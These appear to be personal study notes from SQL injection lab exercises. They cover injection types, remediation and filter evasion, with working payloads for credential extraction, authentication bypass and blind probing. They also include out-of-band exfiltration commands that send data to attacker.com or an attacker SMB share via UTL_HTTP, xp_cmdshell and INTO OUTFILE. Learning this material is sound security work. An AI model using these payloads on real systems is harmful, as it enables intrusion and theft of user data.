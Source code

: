 ## SQL BASICS 

- select * from  users;

-  insert into users (username,password) values ('user','password') ---> for inserting data into tables 

-  update users set  username='root',password='pass123' where username='admin' ; ---> updating database

- For deleting anything we can use delete from users where username='admin' ; 


## SQL Injection

### Types of SQL Injections
1) In-Band SQLi
	- In-Band SQL Injection ---> easily exploitable and gives result 
	- Error-Based SQL Injection --->  as error messages from the database are printed directly to the browser screen.
	- Union-Based SQL Injection ---> uses union operator to retrieve database
	
	- #### Examples
	- database()
	- For tables --->   ?id=0 union select 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
	- For columns --->  ?id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
	- Final Step ---> group_concat(username,':',password) FROM staff_users

2) Blind SQLi - Authentication Bypass
	  - We can see results directly on the screen . no error msgs shown in web 

	- ### Examples
	- ' OR 1=1;--
	- ' OR 1=1 LIMIT 1-- -'

3) Blind SQLi - Boolean Based  (very time consuming)   no visual indicator or result shown 
	- response could be true/false 0/1 or something logical that have only two conditions or outcomes
	-  admin' union select 1,2,3;--
	- admin123' UNION SELECT 1,2,3 where database() like 's%';--  

4) Blind SQLi - Time Based
	-  admin123' UNION SELECT SLEEP(5);--
	- referrer=admin123' UNION SELECT SLEEP(5),2 from users where username like ‘admin’ and password like ‘4961’;

5) Out-of-Band SQLi
	 - depends on external force means depends on business logic 

## Remediation

1) Prepared Statements (With Parameterized Queries)
	- -> Developer writes SQL querys --> then user inputs added as parameters 
	- -->makes much easier code and easier to read
	
2) Input Validation
	-->  make changes on input logic where input logic is manipulated being fix
	
3) Escaping User Input
	--> Allowing user input containing characters such as ' " $ \ can cause SQL Queries to break or, even worse, as we've learnt, open them up for injection attacks. Escaping user input is the method of prepending a backslash (\) to these characters, which then causes them to be parsed just as a regular string and not a special character.


## Advanced

1) Second-Order SQL Injection
	--> Also known as stored SQL injection
	--> exploits vulnerabilities where user-supplied input is saved and subsequently used in        a different part of the application, possibly after some initial processing.
	--> harder to detect
	--> *Can bypass front end defances*

2) Filter Evasion Techniques
	--> URL Encoding
	--> Hexadecimal Encoding
	--> Unicode Encoding

	* No-Quote SQL Injection Technique
	-->  used when the application filters single or double quotes or escapes.
		1) **Using Numerical Values**: --> instead of ' OR '1'='1 this we can use OR 1=1              use values or data types that  does not require quotes
		2) **Using SQL Comments**: -->  admin'-- -> admin--                                                  using sql comments  
		3) **Using CONCAT() Function**: --> CONCAT(0x61, 0x64, 0x6d, 0x69, 0x6e) 

	--> No Spaces Allowed 

	- **Comments to Replace Spaces**: `use sql comments '/**/' to replace spaces`
	- **Tab or Newline Characters**:` use \t (tab) or \n (newline) in place of             space you can use SELECT\t*\tFROM\tusers\tWHERE\tname\t=\t'admin'`
	  - **Alternate Characters**:`whitespace, such as `%09` (horizontal tab), `%0A` (line feed), `%0C` (form feed), `%0D` (carriage return), and `%A0` (non-breaking space).'

|                                                              |                                                                                                                  |                                                                                                         |
| ------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------- |
| **Scenario**                                                 | **Description**                                                                                                  | **Example**                                                                                             |
| **Keywords like SELECT are banned**                          | SQL keywords can often be bypassed by changing their case or adding inline comments to break them up             | SElEcT * FrOm users or SE/**/LECT * FROM/**/users                                                       |
| **Spaces are banned**                                        | Using alternative whitespace characters or comments to replace spaces can help bypass filters.                   | SELECT%0A*%0AFROM%0Ausers or SELECT/**/*/**/FROM/**/users                                               |
| **Logical operators like AND, OR are banned**                | Using alternative logical operators or concatenation to bypass keyword filters.                                  | username = 'admin' && password = 'password' or username = 'admin'/**/\|/**/1=1 --                       |
| **Common keywords like UNION, SELECT are banned**            | Using equivalent representations such as hexadecimal or Unicode encoding to bypass filters.                      | SElEcT * FROM users WHERE username = CHAR(0x61,0x64,0x6D,0x69,0x6E)                                     |
| **Specific keywords like OR, AND, SELECT, UNION are banned** | Using obfuscation techniques to disguise SQL keywords by combining characters with string functions or comments. | SElECT * FROM users WHERE username = CONCAT('a','d','m','i','n') or SElEcT/**/username/**/FROM/**/users |

- **Out-of-band SQL Injection:**
---> does not relay on same channel 
---> security mechanisms like  **stored procedures**, **output encoding**, and **application-                      level constraints** can **prevent direct responses**
---> **Intrusion Detection Systems (IDS)** and **Web Application Firewalls (WAFs)** often                       **monitor and log SQL query responses for suspicious activity**,

- on mysql and mariaDB 
	-- SELECT sensitive_data FROM users INTO OUTFILE '/tmp/out.txt';  
	-- by select and into outfile file writing commands 

- on mssql 
	-- `EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\10.10.58.187\logs\out.txt" -c -T';`

- oracle
	-- `DECLARE req UTL_HTTP.REQ; resp UTL_HTTP.RESP; BEGIN req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?sensitive_data=' || sensitive_data); UTL_HTTP.GET_RESPONSE(req); END;`
	
	-- uses  **UTL_HTTP**  **UTL_FILE**
	-- make smb server --> impacket-smbserver -smb2support -comment "My Logs Server" -debug logs /tmp 
	-- after go to victim url --> `1'; SELECT @@version INTO OUTFILE '\\\\ATTACKBOX_IP\\logs\\out.txt'; --`

3) **Other Techniques**
	- HTTP Header Injection 
	  --> User-Agent: ' OR 1=1; --
	  --> uses curl to exploit -> curl -H "User-Agent: ' UNION SELECT username, password FROM user; # " http://10.10.41.188/httpagent/
	  
	
4) **Major Issues During Identification**
	- **Dynamic Nature of SQL Queries**:
	- **Variety of Injection Points**:
	- **use of security measures**
	- **Context-Specific Detection** 
	
